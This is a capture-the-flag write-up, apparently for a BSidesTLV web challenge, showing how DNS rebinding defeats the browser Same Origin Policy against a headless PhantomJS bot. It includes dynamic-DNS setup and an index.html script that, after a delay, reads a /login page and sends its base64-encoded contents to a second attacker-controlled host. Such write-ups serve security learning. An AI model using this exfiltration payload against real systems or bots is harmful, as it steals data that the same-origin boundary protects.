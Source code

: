 This is how the challenge looks like.

![dd45ecb0.png](/assets/images/posts/bsidestlv-web/dd45ecb0.png)

This challenge is basically an exercise to bypass the Same Origin Policy ([SOP](https://en.wikipedia.org/wiki/Same-origin_policy)) enforced by browsers. One of the most effective way of bypassing SOP is to use DNS Rebinding described [here](https://github.com/mpgn/ByP-SOP).

In any case, let's check out the bot. This is how it looks like.

![f057fb45.png](/assets/images/posts/bsidestlv-web/f057fb45.png)

Let's provide the bot with my IP address where Apache is running.

![9bcb27b9.png](/assets/images/posts/bsidestlv-web/9bcb27b9.png)

In this way, I can view the logs and see who or what is making the request.

```
# tail -f /var/log/apache2/access.log
192.168.30.129 - - [06/Oct/2018:03:23:24 +0000] "GET / HTTP/1.1" 200 3380 "-" "python-requests/2.19.1"
192.168.30.129 - - [06/Oct/2018:03:23:25 +0000] "GET / HTTP/1.1" 200 3380 "-" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1"
```

Interesting. You can see two requests seconds apart. The first request is from Python Request—the challenge page itself. The second request is from PhantomJS, a headless browser. This must be the bot.

To get the DNS Rebinding attack going, let's use DDNS [service](https://www.noip.com/) to register the following two hostnames: `h4ck3rboi` and `h4ck3rman`.

![4d8598cb.png](/assets/images/posts/bsidestlv-web/4d8598cb.png)

Open two Python SimpleHTTPServer running behind `8080/tcp` and `8888/tcp`, for `h4ck3rman` and `h4ck3rboi` respectively.

```
# python -m SimpleHTTPServer 8080
# python -m SimpleHTTPServer 8888
```

Save the following file at the same location as `h4ck3rman`.
<div class="filename"><span>index.html</span></div>

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://h4ck3rman.ddns.net:8080/login");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://h4ck3rboi.ddns.net:8888/hello.txt?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 120000);
</script>
```
